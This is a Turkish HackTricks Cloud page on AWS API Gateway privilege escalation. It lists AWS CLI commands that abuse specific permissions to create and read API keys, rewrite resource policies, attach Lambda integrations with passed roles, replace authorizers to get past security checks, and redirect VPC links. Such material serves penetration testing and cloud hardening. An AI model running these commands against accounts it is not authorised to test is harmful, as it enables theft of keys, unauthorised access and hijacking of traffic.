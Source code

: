 # AWS - Apigateway Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Apigateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Bu izinle, yapılandırılmış API'lerin (bölge başına) API anahtarlarını oluşturabilirsiniz.
```bash
aws --region <region> apigateway create-api-key
```
**Olası Etki:** Bu teknikle yetki yükseltme yapamazsınız ancak hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:GET`

Bu izinle, yapılandırılan API'lerin (bölge başına) oluşturulan API anahtarlarını alabilirsiniz.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Olası Etki:** Bu teknikle yetki yükseltme yapamazsınız ama hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Bu izinlerle, bir API'nin kaynak politikasını değiştirerek kendinize erişim verme ve API geçidinin sahip olabileceği potansiyel erişimi kötüye kullanma (örneğin, savunmasız bir lambda'yı çağırma) mümkün hale gelir. 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Olası Etki:** Genellikle, bu teknikle doğrudan privesc yapamayacaksınız ama hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment` ve `iam:PassRole` izinlerine sahip bir saldırgan, **IAM rolü eklenmiş bir Lambda fonksiyonu ile mevcut bir API Gateway REST API'sine yeni bir entegrasyon ekleyebilir**. Saldırgan daha sonra **Lambda fonksiyonunu tetikleyerek rastgele kod çalıştırabilir ve potansiyel olarak IAM rolü ile ilişkili kaynaklara erişim elde edebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Lambda fonksiyonunun IAM rolü ile ilişkili kaynaklara erişim.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:UpdateAuthorizer` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway yetkilisini** güvenlik kontrollerini atlamak veya API istekleri yapıldığında rastgele kod çalıştırmak için değiştirebilir.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Güvenlik kontrollerinin atlanması, API kaynaklarına yetkisiz erişim.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:UpdateVpcLink` iznine sahip bir saldırgan, **mevcut bir VPC Bağlantısını farklı bir Ağ Yük Dengeleyicisine işaret edecek şekilde değiştirebilir, bu da özel API trafiğini yetkisiz veya kötü niyetli kaynaklara yönlendirebilir**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potansiyel Etki**: Özel API kaynaklarına yetkisiz erişim, API trafiğinin kesilmesi veya kesintiye uğraması.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
